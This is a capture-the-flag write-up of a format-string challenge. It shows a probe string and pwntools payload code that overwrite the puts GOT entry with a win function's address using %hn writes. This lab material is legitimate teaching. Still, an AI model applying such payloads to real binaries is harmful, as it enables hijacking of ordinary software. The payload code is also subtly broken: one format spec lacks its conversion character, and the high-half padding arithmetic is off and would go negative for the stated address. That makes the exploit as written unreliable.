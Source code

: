 # Challenge `Calling Functions Again` Writeup

- Vulnerability: 
  - Format strings
- Where:
  - puts function
- Impact:
  - allows to call functions

## Steps to reproduce

The main function calls a function which reads the user input to a buffer then exits the program.
Sending the following format string
```
"AAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x"
```
we can verify that the 7th register is filled with `41414141` (the value of `AAAA`) which tells us that we control the 7th register.

To call the `win` function we need to overwrite the `puts@GOT` address with the address of the `win` function.
Like previous challenges, we can write the address two bytes at a time using the `%hn` specifier.

We can get the address of the `win` function and the `puts@GOT` using:
```py
elf = ELF("07_call_functions")
win = elf.symbols['win']  # address of the win function -> 0x8049216
puts_address = elf.got['puts']
```

Then, we can write the address two bytes at a time using the following payload:
```py
win_low = (win & 0xffff) - 8  # - 8 bytes due to the two p32 addresses in the payload (each one is 4 bytes)
win_high = (win >> 16) - win_low

payload =  p32(puts_address) + p32(puts_address + 2) + f"%{win_low}x%7$hn".encode() + f"%{win_high}%8$hn".encode()
```

Then, we send the payload and we get the flag.

## Implementation

Full implementation can be found [here](calling-functions-again.py).